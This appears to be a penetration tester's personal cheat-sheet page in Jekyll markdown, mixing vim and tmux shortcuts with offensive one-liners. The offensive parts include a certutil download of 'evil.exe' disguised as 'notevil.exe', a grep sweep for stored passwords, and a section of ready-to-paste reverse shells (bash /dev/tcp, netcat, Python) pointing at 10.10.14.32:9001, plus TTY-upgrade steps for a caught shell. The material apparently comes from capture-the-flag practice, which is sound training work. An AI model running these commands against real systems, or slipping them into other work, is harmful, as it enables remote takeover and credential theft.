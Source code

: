 ```yaml
---
layout: tips
title: Tips and Tricks
---
```


One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Finding writable locations
{% highlight bash%}
find / -type d -writable 2> /dev/null
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.32/9001 0>&1
/bin/sh | nc 10.10.14.32 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.32 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)
Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the text
dd            :delete line
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
q : Quit mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference
[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
